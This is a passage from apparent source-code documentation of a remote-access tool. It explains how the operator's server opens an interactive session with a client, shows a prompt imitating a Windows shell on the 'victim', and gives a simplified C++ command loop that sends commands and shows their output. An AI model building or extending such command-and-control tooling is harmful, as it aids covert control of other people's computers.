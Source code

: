 ## Initiating a Client Session (Interactive Command Loop)

Perhaps the most important feature of the server is the ability to connect to a specific client and issue commands as if you had a remote shell. This is handled by **Server::InitiateUserConnection(userID)** – called when the operator selects menu option 1 and enters a target user's ID. This method sets up an **interactive command loop** bound to that client.

Before entering the loop, the server double-checks a few things:

* **Cache Verification**: It looks up the `userID` in `userCache` to ensure the client is known and has recent data. If not found, or if the cached status isn't "Online", the server refuses to initiate the connection. This prevents us from connecting to an offline or non-existent client. (The monitor thread should have populated the cache if the client is alive, so under normal conditions an online client will be in the cache with status Online.)
* **Session Key Setup**: The server calls `EstablishEncryptedConnection(userID)` once more to guarantee that `transmitKey` and `receiveKey` are current for this client. This accounts for any last-minute key changes. After this, the encryption session is ready.
* **User Prompt**: It fetches the user's name from the cache (`GetUserNameFromCache`) for display, and prints a prompt indicating a connection has been established. For example:

```
Initiating connection with user: Alice
Type 'help' for available commands or 'exit' to stop the connection.
C:\Users\Alice>
```

This prompt mimics a Windows shell on the victim (`C:\Users\<Username>>`) to make it feel like an authentic remote terminal.

Now the server enters a **while-loop** reading commands from `std::getline(std::cin, commandInput)` in a blocking manner. This loop continues until the operator types an `exit` command to break out. Within each iteration, the following logic occurs:

```cpp
// Inside InitiateUserConnection loop (simplified)
std::string commandInput;
while (keepRunning) {
    std::getline(std::cin, commandInput);
    if (commandInput.empty()) continue;         // ignore blank inputs

    if (commandInput == "exit") {
        std::cout << "Stopping connection with user: " << userID << std::endl;
        break;                                  // exit the loop
    } else if (commandInput == "help") {
        DisplayHelpMenu();
        continue;                               // show help and continue
    }

    json command = PrepareCommand(commandInput);
    if (!ValidateCommandSyntax(command, userID)) {
        std::cerr << "Invalid command syntax or unauthorized access." << std::endl;
        continue;
    }

    LogActivity(commandInput, userName, true);   // log the issued command

    if (command["type"] == "shutdown") {
        UploadCommand(command, userID);          // fire-and-forget shutdown
        std::cout << "Shutdown command sent. Closing connection." << std::endl;
        userCache.erase(userID);                 // drop keys from cache
        break;                                   // no response expected, exit session
    }

    UploadCommand(command, userID);              // send command file to client
    ProcessCommandResult(userID, userName);      // wait for and display output
}
```